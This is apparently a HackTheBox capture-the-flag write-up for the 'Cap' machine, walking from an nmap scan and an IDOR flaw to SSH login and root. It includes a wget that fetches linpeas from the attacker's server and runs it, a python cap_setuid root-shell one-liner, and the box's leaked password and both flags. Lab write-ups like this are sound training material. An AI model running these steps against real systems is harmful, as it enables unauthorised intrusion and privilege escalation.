




# HackTheBox **Cap**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```markdown
nmap -sC -sV -oN outputNMAP.txt $IP 
```



Next, I'll check the webpage hosted on port 80.



Inspecting the URL of the "Security Snapshot" page, I notice the section "/data/2". This suggests a possible IDOR vulnerability, so I'll try changing the file name to 0.

It worked.



Moving on, I'll use Burp Suite to intercept the download.

Examining the response, I find:
- Username: **nathan**
- Password: **Buck3tH4TF0RM3!**

With FTP and SSH ports open, I attempt to login as Nathan using SSH.

```markdown
ssh nathan@$ip
Buck3tH4TF0RM3!
```

Success. I retrieve the user flag.

### Flag: f1fafff7c73689e4595da05329e618c5

For the privilege escalation part, I'll transfer linpeas to the target.

Starting a server on my machine: 

```markdown
python3 -m http.server -b $machineIP
```

Downloading linpeas on the target:

```markdown
wget http://$machineIP:8000/linpeas.sh
```

Executing linpeas:

```markdown
chmod +x linpeas.sh
./linpeas.sh
```



LINPEAS reveals an interesting finding about `cap_setuid` on Python 3.8’s binary. Consulting GTFOBins, I learn that we can exploit this using:

```markdown
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Executing this command grants root access.

I retrieve the root flag.

### Flag: d1f70fc80589522bd58b0502b6452a6b